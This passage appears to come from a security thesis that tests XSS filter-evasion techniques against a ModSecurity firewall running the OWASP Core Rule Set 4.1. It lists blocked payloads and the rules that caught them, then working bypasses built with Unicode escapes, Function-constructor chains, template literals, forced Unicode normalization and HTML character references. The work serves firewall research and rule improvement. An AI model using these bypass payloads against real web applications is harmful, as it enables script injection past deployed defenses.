Since ES6, escaping in identifiers is also possible using the Unicode code point escape \verb|\u{...}|, using Unicode code point to obscure the initial payload:

\begin{lstlisting}[style=basicStyle, language=Python, caption=\textbackslash u\{0061\}lert('escape') bypass]
\u{0061}lert("escape")
\end{lstlisting}

is also valid and bypasses the evaluated firewall.

Further applications of this technique are stated under Section~\ref{sec:jsescapemultiiter} using escape sequences inside string literals, under Section~\ref{sec:htmlencjsesc} using single character escape and Section~\ref{sec:avoidingbypassA} using escape sequences inside a template literal.

% \subsubsection{eval() function}
% \label{sec:evalsingleiter}
% The ModSecurity firewall using CRS 4.1.0. checks for usage of the function \verb|eval()| and tries to block requests containing it. An example is listed in Listing~\ref{lst:evalalertXSSblocked}.
% {\color{red} hier evtl noch etwas mehr...}
%
% \begin{lstlisting}[style=ruleStyle, language=XML, caption=eval(`al` + `e` + `rt('XSS')`) blocking example, label={lst:evalalertXSSblocked}]
% <payload>eval(`al` + `e` + `rt('XSS')`)</payload>
% <file>"rules/REQUEST-933-APPLICATION-ATTACK-PHP.conf"</file>
% <fileDetails>[line "331"] [id "933160"]<fileDetails>
% <MatchedData>"eval(`al`   `e`   `rt('XSS')"</MatchedData>
%
% <file>"rules/REQUEST-934-APPLICATION-ATTACK-GENERIC.conf"</file>
% <fileDetails>[line "52"] [id "934100"]<fileDetails>
% <MatchedData>"eval("</MatchedData>
%
% <file>"rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
% <fileDetails>[line "714"] [id "941390"]<fileDetails>
% <MatchedData>"eval("</MatchedData>
% \end{lstlisting}

\subsubsection{JSFuck}
\label{sec:jsfucksingleiter}
The payload \verb|alert('XSS')| has been sent to the Web Application and blocked (Listing~\ref{lst:alertXSSblocked}). Subsequently the payload was obscured using the service provided by JSFuck: https://jsfuck.com/ \\
The resulting payload is shown in Listing~\ref{lst:alertxssjsfuck}. The ModSecurity firewall using CRS 4.1 detects the JSFuck "encoding" and blocks the payload:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=alert('XSS') in JSFuck blocked, label={lst:alertxssjsfuckblocked}]
<payload>^(Listing~\ref{lst:alertxssjsfuck})^</payload>
<message>"JSFuck / Hieroglyphy obfuscation detected"</message>
<file>"rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "654"] [id "941360"]<fileDetails>
<MatchedData>
"Suspicious payload found within ARGS_NAMES:[][(![] [])[ []] (![] [])[! [] ! []] (![] [])[ ! []] (!![] [])[ []]][([][(![] [])[ []] (![] [])[! [] ! []] (![] [])[ ! []] (!![] [])[ []]] [])[ (11337 characters omitted)"
</MatchedData>
<message>"Javascript method detected"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "714"] [id "941390"]<fileDetails>
<MatchedData>"alert("</MatchedData>
\end{lstlisting}


\subsubsection{Aurebesh.js}
\label{sec:aurebeshevaluation}
When sending the payload \verb|prompt()|, the ModSecurity firewall using CRS 4.1 detects the \gls{xss} attempt and blocks the request:
\begin{lstlisting}[style=ruleStyle, language=XML, caption=prompt(1\,2) blocked, label=lst:promptblocked]
<payload>prompt(1,2)</payload>
<file>"rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "714"] [id "941390"]<fileDetails>
<MatchedData>"prompt("</MatchedData>
\end{lstlisting}
If the Aurebesh technique is used to substitute most of the payload with the characters \verb|A-I| as well as \verb|() + [] ! ' = {}|, the obscured payload bypasses the firewall:
\begin{lstlisting}[style=ruleStyle, language=XML, caption=Aurebesh prompt bypass, label=lst:aurebeshpromptbypass]
<payload>prompt(1,2)</payload>
<bypass>A='',B=!A+A,C=!B+A,D=A+{},E=B[A++],F=B[G=A],H=++G+A,I=D[G+H],B[I+=D[A]+(B.C+D)[A]+C[H]+E+F+B[G]+I+E+D[A]+F][I]('p'+F+D[A]+'m'+'p'+E+'(A,++A)')()</bypass>
\end{lstlisting}

For an explanation on how the payload mentioned in Listing~\ref{lst:aurebeshpromptbypass} was created, see Section~\ref{sec:aurebesh}.

The aurebesh evaluation concludes the single iteration evaluation. In the following subsection, payloads obscured through multiple iterations will be evaluated against the tested firewall configuration of an nginx reverse proxy using ModSecurity equipped with rules from the CoreRuleSet version 4.1.



	\subsection{Multi Iteration Evaluation}
\label{sec:multiiteration}
This chapter states the evaluation results of multiple iterations of application of an evasion technique to the specified payloads. If a considerable bypass was found, the result will be used to derive additional firewall rule proposals described under Section~\ref{sec:rulesproposal}.

\subsubsection{Double Percent Encoding}
\label{sec:doublepercenc}
The payload from Listing~\ref{lst:urlencodedexampleblocked} was blocked by the ModSecurity firewall using \acrshort{crs} 4.1.
On usage of double percent encoding, the rules with ids \verb|932130| and \verb|941390| no longer triggered and the payload:

\begin{lstlisting}[style=basicStyle]
alert%2528%2560%2524%257Bnew%2520Date%2528%2529%257D%2560%2529
\end{lstlisting}

bypassed the evaluated firewall configuration.
However, this payload would not be valid unless the target also performs multiple step url decoding. Multiple step url decoding is forbidden according to RFC3986 "Uniform Resource Identifier (URI): Generic Syntax" - Section 2.4:
\begin{quote}
	Implementations must not
	percent-encode or decode the same string more than once, as decoding
	an already decoded string might lead to misinterpreting a percent
	data octet as the beginning of a percent-encoding, or vice versa in
	the case of percent-encoding an already percent-encoded string. \cite{rfc3986/sec2.4}
\end{quote}

Therefore, this is not considered a valid bypass.


\subsubsection{JavaScript Character Escape + Percent Encoding}
\label{sec:jsencpercenc}
During the single iteration evaluation of the JavaScript Character Escape evasion technique using Unicode code point escaping, the resulting obscured payload managed to bypass the evaluated firewall configuration, but caused an error on the web server during parsing with the function \verb|JSON.parse()|. This result is shown under Section~\ref{sec:jsescapesingleiter}.

In order to avoid the call to \verb|JSON.parse()|, the payload was percent encoded to simulate data transmission via query or path param, as stated under Section~\ref{sec:percenc}. The payload:

\begin{lstlisting}[style=basicStyle, escapeinside=\^\^, language=Python]
\u{0061}lert("escape")
\end{lstlisting}

was percent encoded using the Python function \verb|urllib.parse.quote_plus()| to create the payload:

\begin{lstlisting}[style=basicStyle, escapeinside=\^\^, language=Python, caption={\textbackslash u\{0061\}lert("escape") percent encoded bypass}]
%5Cu%7B0061%7Dlert%28%27escape%27%29
\end{lstlisting}

The percent encoded payload was sent in a request toward the web application. The evaluated firewall configuration did not trigger a match on this payload, it successfully bypassed the ModSecurity firewall using \acrshort{crs} 4.1. It was tested valid after being percent decoded on the target.

\subsubsection{Eval + JavaScript character escape}
\label{sec:jsescapemultiiter}
As shown in Section~\ref{sec:jsescapesingleiter}, JavaScript's Unicode code point escape sequence can be used to escape identifiers.
Characters in String literals can also be replaced by escape sequences in JavaScript. Considering the bypass in Listing~\ref{lst:strconcbypass} mentioned under Section~\ref{sec:stringconcsingleiter}, the bypassing payload containing a string literal:

\begin{lstlisting}[style=basicStyle, language=Python]
'alert'+'(`concatenation`)'
\end{lstlisting}

with the intention of bypassing the regular expression filter matching on \verb|alert(| can be improved. The payload needs to be evaluated twice on the target in order to achieve the desired effect. The first evaluation concatenates the string composing the desired JavaScript statements, the second evaluation achieves the desired effect of displaying an alert dialog in the browser through evaluating the JavaScript statements contained in the just concatenated string.

The first way to substitute the evaluation, that concatenates the payload string, is by a payload obscured using JavaScript escape sequences instead of string concatenation:

\begin{lstlisting}[style=basicStyle, language=Python]
al\u{0065}rt('escaped')
\end{lstlisting}

Through substituting the latin character \verb|e|, the firewall does not match on the character sequence \verb|alert(| and the string concatenation can be omitted. However, similar to what was observed under Section~\ref{sec:jsescapesingleiter}, using Unicode code point escaping in JavaScript identifiers causes the \verb|JSON.parse()| function to throw an error. It can be avoided if the payload is percent encoded as stated under Section~\ref{sec:jsencpercenc}.

The second way to substitute the evaluation, that concatenates the payload string, is by using \verb|eval()| in a payload to enforce this evaluation on the target. The original payload extended to use the \verb|eval()| function:

\begin{lstlisting}[style=basicStyle, language=Python]
eval('alert'+'(`concatenation`)')
\end{lstlisting}

caused multiple firewall rules to trigger, as stated under Section~\ref{sec:functionconstructorsingleeva}. Subsequently, the payload was obscured through JavaScript escape sequences:

\begin{lstlisting}[style=basicStyle, language=Python]
ev\u{0061}l('alert'+'(`escaped`)')
\end{lstlisting}

Through substituting a part of identifier of the \verb|eval()| function, matches on \verb|eval(|, that are seen in Listing~\ref{lst:evalblocked} under Section~\ref{sec:functionconstructorsingleeva}, are avoided. As stated before, JavaScript Unicode code point escaping must be percent encoded in order to create a valid payload:

\begin{lstlisting}[style=basicStyle, language=Python, caption='ev\textbackslash u\{0061\}l('alert' + '(`escaped`)') percent encoded bypass]
ev%5Cu%7B0061%7Dl%28%27alert%27%2B%27%28%60escaped%60%29%27%29
\end{lstlisting}

A similar result to the bypass listed in Listing~\ref{lst:funconbypass} under Section~\ref{sec:functionconstructorsingleeva} has been achieved. However, this payload is valid only if it is transmitted in percent encoded form. For instance, when the payload is transmitted in a URI.


\subsubsection{Function Constructor + String Concatenation}
\label{sec:funconstrconbypass}
In this test, the payload logic should include multiple statements and reveal a secret by accessing a property.
The basic implementation was blocked by the ModSecurity firewall configured to use \acrshort{crs} 4.1:

\begin{lstlisting}[style=ruleStyle, language=XML, caption={prompt() blocked}, label={lst:promptblocked}]
<payload>`var s = "secret";prompt(s, s)`</payload>

<message>"Javascript method detected"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "714"] [id "941390"]<fileDetails>
<MatchedData>"prompt("</MatchedData>
\end{lstlisting}

Using string concatenation to replace the character sequence \verb|'prompt'| with \verb|'promp + t'| successfully made the payload evade rule \verb|941390| and bypass the WAF. The bypassing payload:

\begin{lstlisting}[style=basicStyle, language=Python]
`var s = 'secret'; promp` + `t(s, s)`
\end{lstlisting}

If this payload is correctly injected into the evaluation test page mentioned under Section~\ref{sec:evaluation}, it results in the following \acrshort{html} code (shortened):

\begin{lstlisting}[style=basicStyle, language=Python]
<div id="div1">
	<img src="0" onerror="`var s = 'secret'; promp` + `t(s, s)`">
</div>
\end{lstlisting}

While this executes without exceptions, it does not achieve the wished-for effect. The effect achieved is the concatenation of the two strings \verb|`var s = 'secret'; promp`| and \verb|`t(s, s)`|. As mentioned under Section~\ref{sec:stringconc}, the payload string needs to be evaluted on the target in order to have a functioning payload after obscuring the statements inside with string concatenation. To achieve this, the \verb|Function()| constructor was used:

\begin{lstlisting}[style=basicStyle, language=Python]
new Function(`var s = 'secret'; promp` + `t(s, s)`)()
\end{lstlisting}

When evaluating the firewall against this payload, the payload was blocked according to rule:

\begin{lstlisting}[style=ruleStyle, language=XML, caption={Function() constructor blocked}, label={lst:funconblocked}]
<payload>new Function(`var s = 'secret'; promp` + `t(s, s)`)()</payload>

<message>"Node.js Injection Attack 1/2"</message>
<file>"/rules/REQUEST-934-APPLICATION-ATTACK-GENERIC.conf"</file>
<fileDetails>[line "52"] [id "934100"]<fileDetails>
<MatchedData>"new Function("</MatchedData>
\end{lstlisting}

To evade rule with id \verb|934100|, calling the \verb|Function()| constructor was substituted by \verb|[]['constructor']['constructor']()| according to the technique mentioned under Section~\ref{sec:functionconstructor}:

\begin{lstlisting}[style=basicStyle, language=Python]
[]['constructor']['constructor'](`var s = 'secret'; promp` + `t(s, s)`)()
\end{lstlisting}

While this payload successfully bypasses the evaluted firewall configuration, when evaluating this payload using the test code snipped mentioned under Section~\ref{sec:evaluation}, it turned out to be invalid. After parsing and injecting the payload into the \acrshort{html} page according to the following statements:

\begin{lstlisting}[style=basicStyle, language=Python, escapeinside=\^\^]
const injection = 
  JSON.parse("{\"body\":\"[]['constructor']['constructor'](`var s = 'secret'; promp` + `t(s, s)`)()\"}")

document.getElementById('div1').insertAdjacentHTML('afterbegin', `<img src=0 onerror=${injection.body}>`)
\end{lstlisting}

the resulting \acrshort{html} code did not execute the given statements inside the payload as expected. It resulted in the following \acrshort{html} code:

\begin{lstlisting}[style=basicStyle, language=Python, escapeinside=\^\^]
<div id="div1">
	<img src="0" onerror="[]['constructor']['constructor'](`var" s="secret" ;="" promp`="" +="" `t(s,="" s)`)()="">
</div>
\end{lstlisting}

In order to avoid the splitting of statements synchronous to whitespaces in the payload string, JavaScript comment interference was used.
According to the JavaScript comment substitution technique stated under Section~\ref{sec:jscommentsub}, all whitespaces were replaced by JavaScript comments, creating the payload:

\begin{lstlisting}[style=basicStyle, language=Python, caption={Function() constructor + string concatenation in square bracket notation bypass}, label={lst:funconbypasssbn}]
[]['constructor']['constructor'](`var/**/s/**/=/**/'secret';/**/promp`/**/+/**/`t(s,/**/s)`)()
\end{lstlisting}

A request containing this payload bypassed the firewall. After injecting it into the test \acrshort{html} page during validation, it resulted in the valid \acrshort{html} code:

\begin{lstlisting}[style=basicStyle, language=Python, escapeinside=\^\^]
<div id="div1">
	<img src="1" onerror="[]['constructor']['constructor'](`var/**/s/**/=/**/'secret';/**/promp`/**/+/**/`t(s,/**/s)`)()">
</div>
\end{lstlisting}


Similarly, using the dot-syntax instead of bracket-access, the following valid payload bypasses the firewall:

\begin{lstlisting}[style=basicStyle, caption={Function() constructor + string concatenation in dot notation bypass}, language=Python]
[].constructor.constructor(`var/**/s/**/=/**/'secret';/**/promp`/**/+/**/`t(s,/**/s)`)()
\end{lstlisting}


\subsubsection{Function Constructor + String Concatenation + fromCharCode()}
\label{sec:charcodemultiiter}
Following up on the idea to split the character sequence \verb|String.fromCharCode| into multiple segments, which was stated during the single iteration evaluation under Section~\ref{sec:charcodesingleiter}, the payload:

\begin{lstlisting}[style=basicStyle, language=Python]
String.fromCharCode(0x61,108,0x65,114,116,0x28,96,120,115,115,0x60,0x29)
\end{lstlisting}

was split into two parts using the \verb|Function()| constructor and string concatenation:

\begin{lstlisting}[style=basicStyle, language=Python]
[].map.constructor('String.'+'fromCharCode(0x61,108,0x65,114,116,0x28,96,120,115,115,0x60,0x29)')();
\end{lstlisting}

This payload successfully bypassed the ModSecurity firewall configured to use the \acrshort{crs} 4.1. In order to make this payload execute, another use of the \verb|Function()| constructor and string concatenation was applied:

\begin{lstlisting}[style=basicStyle, language=Python]
[].map.constructor('[].map.constructor('+'String.'+'fromCharCode(0x61,108,0x65,114,116,0x28,96,120,115,115,0x60,0x29)'+')();')();
\end{lstlisting}

On evaluating this payload against the tested firewall, the newly applied obscurity triggered a different filtering rule:

\begin{lstlisting}[style=ruleStyle, language=XML]
<payload>
[].map.constructor('[].map.constructor('+'String.'+'fromCharCode(0x61,108,0x65,114,116,0x28,96,120,115,115,0x60,0x29)'+')();')();
</payload>

<message>"PHP Injection Attack: Variable Function Call Found"</message>
<file>"/rules/REQUEST-933-APPLICATION-ATTACK-PHP.conf"</file>
<fileDetails>[line "488"] [id "933210"]<fileDetails>
<MatchedData>"('[].map.constructor(''String.''fromCharCode(0x61,108,0x65,114,116,0x28,96,120,115,115,0x60,0x29)'')();')();"</MatchedData>
\end{lstlisting}

The regular expression used in this rule:

\begin{lstlisting}[style=basicStyle]
(?:\((?:.+\)(?:[\"'][\-0-9A-Z_a-z]+[\"'])?\(.+|[^\)]*string[^\)]*\)[\s\x0b\"'\-\.0-9A-\[\]_a-\{\}]+\([^\)]*)|(?:\[[0-9]+\]|\{[0-9]+\}|\$[^\(\),\.\/;\x5c]+|[\"'][\-0-9A-Z\x5c_a-z]+[\"'])\(.+)\);
\end{lstlisting}

requires a semicolon to finish the statement. In JavaScript, cases exist, where this semicolon is not neccessary. One such case would be the existance of a semicolon finished statement in the code just before where the payload is injected and a newline followed by another function call or variable assignment in the code after where the payload is injected. A case where the semicolon would be neccessary to achieve code execution is the following:

\begin{lstlisting}[style=basicStyle, language=Python]
<statements before>

[].map.constructor('[].map.constructor('+'String.'+'fromCharCode(0x61,108,0x65,114,116,0x28,96,120,115,115,0x60,0x29)'+')();')()

[].constructor.constructor('alert("exception")')()

<statements after>
\end{lstlisting}

In this case, the JavaScript parser will throw a \verb|SyntaxError|:

\begin{lstlisting}[style=basicStyle, language=Python]
Uncaught SyntaxError: expected expression, got ']'
\end{lstlisting}

JavaScript is able to automatically insert some semicolons to create valid syntax from statements where the semicolons have been omitted. JavaScript's automatic semicolon insertion rules are stated under \cite{js/autosemi}. Limitations, that arise when accessing the \verb|Function()| constructor with the syntax used in this subsection, are laid out under Section~\ref{sec:functionconstructor} and Section~\ref{sec:payloadlimitations}.

As no such limitations apply where the payload is injected during validation in the context of this evaluation, the payload with the semicolon removed:

\begin{lstlisting}[style=basicStyle, language=Python, caption=fromCharCode() bypass]
[].map.constructor('[].map.constructor('+'String.'+'fromCharCode(0x61,108,0x65,114,116,0x28,96,120,115,115,0x60,0x29)'+')();')();
\end{lstlisting}

successfully bypassed the ModSecurity firewall using \acrshort{crs} 4.1 and validated on the target.


\subsubsection{Avoiding ()}
\label{sec:avoidingbypassA}
In the context of evaluating the ModSecurity firewall using \acrshort{crs} 4.1 with firewall evasion techniques, the author faced the question if it was possible to create payloads without using parenthesis: \verb|()|. Those payloads still need to be valid and successfully bypass the evaluated firewall configuration.
Considering the bypassing payload shown in Listing~\ref{lst:funconbypasssbn} stated under Section~\ref{sec:funconstrconbypass}, opening and closing \verb|()| can be substituted with Tagged Template Literals, as proposed under Section~\ref{sec:taggedtemplateliterals}, forming the payload:

\begin{lstlisting}[style=basicStyle, language=Python]
[]['constructor']['constructor']`${'var s = "secret";promp'+'t`s${s}`'}```
\end{lstlisting}

This payload caused another firewall rule to trigger:

\begin{lstlisting}[style=ruleStyle, language=XML, caption={Avoiding () blocked}, label={lst:avoiding () blocked}]
<payload>[]['constructor']['constructor']`${'var s = "secret";promp'+'t`s${s}`'}```</payload>

<message>"Remote Command Execution: Unix Shell Expression Found"</message>
<file>"/rules/REQUEST-932-APPLICATION-ATTACK-RCE.conf"</file>
<fileDetails>[line "291"] [id "932130"]<fileDetails>
<MatchedData>"${s}"</MatchedData>
\end{lstlisting}

Evading rule \verb|932130| was possible by using Unicode code point escaping in JavaScript as proposed under Section~\ref{sec:jsescape}. The character sequence \verb|${s}| was replaced with \verb|\u{0024}{s}|:

\begin{lstlisting}[style=basicStyle, language=Python]
[]['constructor']['constructor']`${'var s = "secret";promp'+'t`s\u{0024}{s}`'}```
\end{lstlisting}

This made the payload bypass the ModSecurity firewall using \acrshort{crs} 4.1. During validating, the bypassing payload triggered an error when parsing the request body with \verb|JSON.parse()|. A similar case was mentioned under Section~\ref{sec:jsescapesingleiter}. As the Unicode code point escape is used within a string in this payload, percent encoding is not neccessary. Instead, the back-slash in the character sequence \verb|s\u{0024}| was escaped by prepending it with another back-slash. RFC4627: The application/json Media Type for JavaScript Object Notation (JSON) states that in JSON:
\begin{quote}
	there are two-character sequence escape representations of some popular characters.  So, for example, a string containing only a single reverse solidus character may be represented more compactly as \quotes{\textbackslash \textbackslash }. \cite{rfc4627}
\end{quote}

The resulting payload:

\begin{lstlisting}[style=basicStyle, language=Python]
[]['constructor']['constructor']`${'var s = "secret";promp'+'t`s\\u{0024}{s}`'}```
\end{lstlisting}

still bypassed the evaluted firewall configuration. It no longer caused an error during parsind. However, the whitespaces in contained JavaScript statements caused the injected payload to form invalid \acrshort{html} code. This was also observed during the evaluation conducted under Section~\ref{sec:funconstrconbypass}. As such, whitespaces in the payload have been replaced by JavaScript inline comments:

\begin{lstlisting}[style=basicStyle, language=Python]
[]['constructor']['constructor']`${'var/**/s/**/=/**/"secret";promp'+'t`s\\u{0024}{s}`'}```
\end{lstlisting}

This payload bypassed the evaluated firewall configuration. The injected payload formed valid \acrshort{html} code. However, during execution of the payload, another \verb|SyntaxError| was thrown:

\begin{lstlisting}[style=basicStyle, language=Python]
Uncaught SyntaxError: missing formal parameter
\end{lstlisting}

As stated under Section~\ref{sec:taggedtemplateliterals}, when calling a function using Tagged Template Literals, the first parameter given to the called function is an array containing the strings that surround the \verb|{expression}| placeholders. As stated under Section~\ref{sec:functionconstructor}, the first $n-1$ parameters given to the \verb|Function()| constructors must each be a string that corresponds to a valid JavaScript parameter or a list of such strings separated with commas. 
Therefore, the payload was extended accordingly:

\begin{lstlisting}[style=basicStyle, language=Python, caption={Avoiding () bypass}, label={lst:avoiding () bypass}]
[]['constructor']['constructor']`someParameterString${'var/**/s/**/=/**/"secret";promp'+'t`s\\u{0024}{s}`'}```
\end{lstlisting}

When sent in a request towards the web application, this payload successfully bypassed the ModSecurity firewall using \acrshort{crs} 4.1. During validation, it was injected into the validation \acrshort{html} page and executed correctly. 

% It is conspicuous that the payload could bypass the firewall with only the later \verb|$| of the two placeholders: \verb|${expression}| escaped.
% This seems to be a bug in the WAF or the ruleset.
% It is also what enables the above payload to be valid.
% A substitution of the earlier \verb|$| with an escaped variant is not possible.
% JavaScript does not recognize the placeholder in the Template Literal without the explicit character \verb|$|.
% Substitution of the second placeholder is possible because it happens inside a string containing the Tagged Template Literal.

% console.log(encodeURIComponent('[][`constructor`][`constructor`]`a\uFE69{`al`+[open+[]][0][11]+`rt`+[open+[]][0][13]+[`"`][0]+`Oneconsult`+[`"`][0]+[open+[]][0][14]}```'))

\subsubsection{Avoiding \{\}}
\label{sec:avoidingbypassB}
A payload thats not using any curly brackets: \verb|{}| but still allows for Tagged Template Literals or other usages of \verb|{}| can be created using String Substitution strategies. Considering the payload from the previous Section~\ref{sec:avoidingbypassA}, a related payload was created:

\begin{lstlisting}[style=basicStyle, language=Python]
[][`constructor`][`constructor`]('pro'+'mpt`see4InInput${2+2}:`')()
\end{lstlisting}

This payload was blocked by the evaluated firewall configuration:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=Blocked for \$\{\}, label={lst:stringreplaceblocked}]
<payload>[][`constructor`][`constructor`]('pro'+'mpt`see4InInput${2+2}:`')()</payload>

<message>"Remote Command Execution: Unix Shell Expression Found"</message>
<file>"/rules/REQUEST-932-APPLICATION-ATTACK-RCE.conf"</file>
<fileDetails>[line "291"] [id "932130"]<fileDetails>
<MatchedData>"${2 2}"</MatchedData>
\end{lstlisting}

On using a String Substitution strategy like mentioned in \ref{sec:stringreplace}, the curly brackets were substituted in the payload: 

\begin{lstlisting}[style=basicStyle, language=Python, caption={Avoiding \{\} bypass}, label={lst:stringreplacepass}]
[][`constructor`][`constructor`]('pro'+'mpt`see4InInput$'+[open+[]][0][16]+'2+2'+[open+[]][0][36]+':`')()
\end{lstlisting}

A request equipped with this payload successfully evaded the ModSecurity firewall using \acrshort{crs} 4.1. It validated successfully. 


\subsubsection{Forcing Unicode Normalization}

\label{sec:forcedunicodenorm}
As stated before, a payload containing the \verb|prompt()| function:

\begin{lstlisting}[style=basicStyle, escapeinside=\^\^, language=Python]
prompt(',',secret)
\end{lstlisting}

was blocked by the ModSecurity firewall using \acrshort{crs} 4.1 according to the rule:

\begin{lstlisting}[style=ruleStyle, language=XML]
<payload>prompt(',', secret)</payload>

<message>"Javascript method detected"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "714"] [id "941390"]<fileDetails>
<MatchedData>"prompt("</MatchedData>
\end{lstlisting}

in order to avoid the \acrshort{crs} rule with id \verb|931390|, that matches on the character sequence \verb|prompt(|, Tagged Template Literals have been used to obscure the payload:

\begin{lstlisting}[style=basicStyle, escapeinside=\^\^, language=Python]
prompt`${secret}`
\end{lstlisting}

this payload bypassed the initially triggered rule but triggered a different rule:

\begin{lstlisting}[style=ruleStyle, language=XML]
<payload>prompt`${secret}`</payload>

<message>"Remote Command Execution: Unix Shell Expression Found"</message>
<file>"/rules/REQUEST-932-APPLICATION-ATTACK-RCE.conf"</file>
<fileDetails>[line "291"] [id "932130"]<fileDetails>
<MatchedData>"${secret}"</MatchedData>
\end{lstlisting}

Based on this result, it stands to reason that the next step should be to avoid that parts of the payload match on the regular expression: \verb|\$(?:\{.*\})|, which is a simplified form of the regular expression used in the \acrshort{crs} rule with id \verb|932130|.

Previous results stated in this section either use JavaScript's character escaping (Section~\ref{sec:avoidingbypassA}) or string concatenation and substitution strategies (Section~\ref{sec:avoidingbypassB}). Single iteration results stated under Section~\ref{sec:uninormsingleiter} have shown that replacing parts of a payload with unicode symbols successfully makes payloads bypass the evaluated firewall. The payloads mentioned under Section~\ref{sec:uninormsingleiter} depend on Unicode normalization implemented by the web server receiving those requests.

If the web server is using Unicode normalization (NFKC) to normalize incoming requests, the character \verb|$| can also be replaced with another character in unicode that gets normalized to it to create a valid bypassing payload. It was tested with the small dollar sign U+FE69, supplied using the escape sequence \verb|\uFE69|:

\begin{lstlisting}[style=basicStyle, language=Python]
prompt`\uFE69{secret}`
\end{lstlisting}

Similar to the evaluation results stated under Section~\ref{sec:unicodeinjsontest}, the \acrshort{crs} 4.1 rule with id \verb|920540| got triggered by the unicode escape sequence:

\begin{lstlisting}[style=ruleStyle, language=XML]
<payload>prompt`\uFE69{secret}`</payload>

<message>"Possible Unicode character bypass detected"</message>
<file>"/rules/REQUEST-920-PROTOCOL-ENFORCEMENT.conf"</file>
<fileDetails>[line "1263"] [id "920540"]<fileDetails>
<MatchedData>"x5cuFE69"</MatchedData>
\end{lstlisting}

The ModSecurity log file does not mention any transformations used by the rule before checking for matching character sequences. This was confirmed by looking at the rule with id \verb|920540| in the file \verb|REQUEST-920-PROTOCOL-ENFORCEMENT.conf| where it states: \verb|t:none|. Based on this observation, the JavaScript escape sequences evaluation results stated under Section~\ref{sec:jsescapesingleiter} and the unicode normalization results stated under Section~\ref{sec:uninormsingleiter}, three techniques to evade \acrshort{crs} 4.1 rule with id \verb|920540| seem promising:

\begin{enumerate}
	\item Percent encoding the payload
	\item Using the Unicode code point escape sequence
	\item Directly putting the small dollar sign character into the payload, without any escaping
\end{enumerate}

(1.) Percent encoding was done using the python statement:

\begin{lstlisting}[style=basicStyle, language=Python]
urllib.parse.quote_plus("prompt`\uFE69{secret}`")
\end{lstlisting}

which returns the payload:

\begin{lstlisting}[style=basicStyle, language=Python]
prompt%60%EF%B9%A9%7Bsecret%7D%60
\end{lstlisting}

This payload successfully bypassed the evaluated firewall.

(2.) Using a Unicode code point escape sequence introduced in ES6, the payload:

\begin{lstlisting}[style=basicStyle, language=Python]
prompt`\u{FE69}{secret}`
\end{lstlisting}

successfully bypassed the evaluated firewall. However, this payload can not be parsed error free. Further explanation is stated under Section~\ref{sec:jsescapesingleiter}.

(3.) When directly putting the small dollar sign character (U+FE69) into the payload (in this document, the character (U+FE69) is replaced by the regular \$ sign surrounded by whitespaces):

\begin{lstlisting}[style=basicStyle, language=Python]
prompt` $ {secret}`
\end{lstlisting}

the resulting payload bypassed the ModSecurity firewall using \acrshort{crs} 4.1. It was validated successfully.

In the proceeding of this section, only option 3.: directly using (U+FE69), will be considered. 

At this point, the payload is still dependend on the web server performing Unicode normalization. To avoid this dependency, attackers might try and enforce the normalization of the payload. Forced normalization can be achieved by passing the payload:

\begin{lstlisting}[style=basicStyle, language=Python]
prompt` $ {secret}`
\end{lstlisting}

as a string and an argument to the \verb|eval()| function. The call to the \verb|normalize()| function is appended to the payload string:

\begin{lstlisting}[style=basicStyle, language=Python]
eval('prompt` $ {secret}`'.normalize('NFKC'))
\end{lstlisting}

The \verb|eval()| function will be used to evaluate the normalized payload string. Similar to the results stated under Section~\ref{sec:functionconstructorsingleeva}, the payload that is using the \verb|eval()| function was blocked. In the next iteration, \verb|eval()| was substituted using the technique described under Section~\ref{sec:functionconstructor}. The obscured payload after this iteration:

\begin{lstlisting}[style=basicStyle, language=Python, caption=Forced Unicode Normalization bypass, label={lst:forcedunicodenormbypass}]
[].map.constructor('prompt` $ {secret}`'.normalize('NFKC'))()
\end{lstlisting}

bypassed \acrshort{crs} 4.1 rules that try to prohibit payloads including the character sequence of \verb|eval(|. When injected into the validation \acrshort{html} page and executed, the payload first is force normalized. This makes it semantically equal to the payload:

\begin{lstlisting}[style=basicStyle, language=Python]
prompt`${secret}`
\end{lstlisting}

which is semantically equal (as defined in this work) to the initial payload stated in this subsection:

\begin{lstlisting}[style=basicStyle, language=Python]
prompt(',',secret)
\end{lstlisting}


% but still matches on rule with id \verb|920540| and message: \quotes{Possible Unicode character bypass detected}. Therefore, in the following iteration, the payload was percent encoded, again using the \verb|quote_plus()| python function, which returned:
%
% \begin{lstlisting}[style=basicStyle, language=Python]
% %5B%5D.constructor.constructor%28%27prompt%60%EF%B9%A9%7Bsecret%7D%60%27.normalize%28%27NFKC%27%29%29%28%29
% \end{lstlisting}
%
% The percent encoded payload successfully bypasses the ModSecurity firewall using \acrshort{crs} 4.1. If decoded on the Web server, it resolves into the targeted payload (the character U+FE69 is displayed by the regular \$ surrounded by whitespaces in this document):
%
% \begin{lstlisting}[style=basicStyle, language=Python]
% "[].constructor.constructor('prompt` $ {secret}`'.normalize('NFKC'))()"
% \end{lstlisting}


\subsubsection{Double HTML Character Reference}
\label{sec:doublehtmlcharref}
As stated under Section~\ref{sec:htmlcharrefsingleeva}, three blacklisting rules caused the ModSecurity firewall using \acrshort{crs} 4.1 to block the payload:

\begin{lstlisting}[style=basicStyle, language=Python]
<a href=javascript:alert('a')>ClickMeFor$</a>
\end{lstlisting}

After obscuring the payload with a single iteration of \acrshort{html} character reference substitution, the modified payload:

\begin{lstlisting}[style=basicStyle, language=Python, escapeinside=\^\^]
<a href=jav^\&\#x61^;script:alert('a')>ClickMeFor$</a>
\end{lstlisting}

successfully bypassed two of the three rules that caused the firewall to block the request.

On escaping the left parenthesis: \verb|(| in the javascript function \verb|alert()|, which was part of the matched data that caused rule with id \verb|941390| to match (see Listing~\ref{lst:storedxssinjblocked}), the payload:

\begin{lstlisting}[style=basicStyle, language=Python, caption=HTML Character Reference bypass, label={lst:htmlcharacterreferencebypass}, escapeinside=\^\^]
<a href=jav^\&\#x61;script:alert\&\#x28;^'a')>ClickMeFor$</a>
\end{lstlisting}

successfully bypassed the ModSecurity firewall using \acrshort{crs} 4.1.


